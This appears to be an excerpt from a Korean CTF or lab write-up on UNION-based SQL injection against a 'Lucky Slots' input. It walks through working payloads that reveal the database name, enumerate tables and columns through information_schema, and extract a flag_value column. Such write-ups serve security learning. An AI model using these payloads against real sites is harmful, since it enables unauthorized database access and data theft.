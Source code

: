 ```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,database()--+
```

출력 결과를 통해 현재 사용 중인 데이터베이스는 **spec1**임을 확인할 수 있었다.

후에 이제 `information_schema.tables`를 이용해 데이터베이스 spec1 내의 테이블 목록을 확인해보았다.

다음과 같은 쿼리를 통해 세 번째 테이블(**LIMIT 2,1**)을 조회한 결과, 테이블 이름으로 **secret_flags**가 출력되었다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+table_name+from+information_schema.tables+where+table_schema='spec1'+limit+2,1)--+
```

이후, `secret_flags` 테이블 내부에 어떤 컬럼들이 존재하는지 확인하기 위해 `information_schema.columns`를 조회하였다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+column_name+from+information_schema.columns+where+table_schema='spec1'+and+table_name='secret_flags'+limit+?,1)--+
```

쿼리 실행 결과, 각각 **id, flag_name, flag_value**라는 컬럼명을 확인할 수 있었다.

마지막으로, 이전 단계에서 확인한 `flag_value` 컬럼으로부터 실제 데이터를 추출하기 위해 다음과 같은 쿼리를 사용하였다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+flag_value+from+secret_flags+limit+1,1)--+ 
```

결과
![spec1 flag](/assets/screenshots/union-sqli/spec1_flag.png)
